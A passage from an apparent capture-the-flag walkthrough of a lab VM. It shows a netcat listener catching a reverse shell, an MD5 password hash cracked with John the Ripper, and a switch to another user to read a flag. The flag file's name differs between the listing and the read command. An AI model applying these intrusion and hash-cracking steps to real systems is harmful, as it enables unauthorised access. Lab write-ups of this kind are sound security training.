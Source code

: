 ```
$ nc -lvnp <port>

Listening on 0.0.0.0 <port>
Connection received on <ip-address> 47007
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 10:20:04 up 43 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
$ whoami
daemon
```

We have a reverse shell!

## 4. Privilege Escalation

Let's take a look around. First, I'll check out the `/home` directory to see what other users are on this machine. There is a home directory for `robot` that we have read access to!

```
$ ls -la /home/robot/

total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

We found the second flag, but we can't read it yet. The file `password.raw-md5` contains a password hash for user `robot`, let's see if we can crack the hash using John the Ripper.

```
$ echo "<redacted-hash-for-robot>" > hash
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5         
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
<redacted> (?)     
1g 0:00:00:00 DONE (2024-01-26 11:30) 10.00g/s 407040p/s 407040c/s 407040C/s bonjour1..teletubbies
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

We got it! Now we can switch users to `robot` and get the second key.

```
daemon@linux:/home/robot$ su robot
Password: <redacted>

robot@linux:~$ whoami
robot
robot@linux:~$ cat /home/robot/flag-2-of-3.txt
<redacted>
```
